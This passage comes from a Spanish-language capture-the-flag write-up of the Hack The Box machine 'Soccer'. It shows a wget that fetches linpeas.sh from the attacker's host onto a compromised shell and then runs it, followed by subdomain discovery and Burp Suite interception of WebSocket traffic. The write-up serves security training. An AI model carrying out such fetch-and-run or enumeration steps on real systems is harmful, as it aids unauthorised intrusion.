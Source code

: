 ```sh
www-data@soccer:/tmp$ wget http://10.10.14.7/linpeas.sh
--2023-07-04 07:59:18--  http://10.10.14.7/linpeas.sh
Connecting to 10.10.14.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828087 (809K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                    100%[==========================================================================>] 808.68K  1.74MB/s    in 0.5s    

2023-07-04 07:59:19 (1.74 MB/s) - 'linpeas.sh' saved [828087/828087]

www-data@soccer:/tmp$ chmod +x linpeas.sh
www-data@soccer:/tmp$ ./linpeas.sh
-- skip --
# Sale muuucha información, pero me quedo con esto:

lrwxrwxrwx 1 root root 41 Nov 17  2022 /etc/nginx/sites-enabled/soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
server {
	listen 80;
	listen [::]:80;
	server_name soc-player.soccer.htb;
	root /root/app/views;
	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
```
Tenemos un nuevo subdominio; **soc-player.soccer.htb**. Parece que escucha por el puerto 80 de la máquina, a través de virtual hostint. Y pasa por un proxy en el puerto 3000 de la máquina si no lo entiendo mal. Añado ese dominio al /etc/hosts:
```sh
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot

10.10.11.194  soccer.htb  soc-player.soccer.htb
```
Y me meto al navegador.

![NewDominio]({{ 'assets/img/writeups/Soccer/nuevoDominio.png' | relative_url }}){: .center-image }

Parece igual pero no, cambia lo marcado en rojo, antes no estaba.

Nos registramos y luego nos logueamos. Parece que hay un sistema de tickets. Quiero interceptar la petición para probar cosillas y ver la petición claro, así que inciamos burpsuite.

Intercepto una petición recargando página de check(tickets) --> En burpsuite; Forward, Intercept is off --> http history verás que mandando mas números no llega nada, pero en WebSocket History si:

![WebSocket]({{ 'assets/img/writeups/Soccer/webSocket.png' | relative_url }}){: .center-image }
